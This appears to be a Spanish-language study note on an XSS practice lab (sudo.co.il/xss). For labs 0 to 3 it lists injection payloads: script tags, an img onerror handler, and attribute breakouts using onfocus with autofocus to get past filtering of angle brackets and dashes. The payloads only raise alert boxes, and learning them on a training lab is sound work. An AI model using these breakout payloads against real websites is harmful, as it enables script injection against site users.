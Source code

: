 # XSS Lab

Tags: #XSS #Challenges

* [sudo.co.il/xss/](https://sudo.co.il/xss/)

```bash
# Para estos laboratorios se debe de mirar el inspector y el código fuente de la web para saber que se debe ir haciendo. Esto ayuda a practicar e ir evadiendo en el codigo fuente para ejecutar un XSS. 
```

## Lab 0

```javascript
<script>alert("XSS")</script>                 // Script basico 
<img src/onerror=alert(document.domain)>      // Para que nos regres el dominio del sitio web 
```

## Lab 1

```javascript
// Debemos de cerrar el campo valor e inyectar el codigo 

"><script>alert("XSS")</script>"              // Debemos de cerrar el campo 'valor' para poder inyectar codigo JavaScript
"><script>alert("XSS")</script><!- -          // <!- - Es un comentario, '--' Asi deberia de ir, seguidos, esto lo hacemo si el SXX se acontece en un campo de login, por lo que el comentario es para evitar el campo de password
" onfocus="alert(1)" autofocus="              // Otra manera de colocar alert 
```

## Lab 2 

```javascript
// Cuando el codigo esta sanitizado, a veces no deja que coloquemos '< o >' por lo que debemos buscar otra manera de colocar alert

" onfocus="alert(1)" autofocus="          
```

## Lab 3 

```javascript
// En este lab nos colocan un guion '-' como forma de sanitizar 

"onfocus="alert(1)" autofocus="
```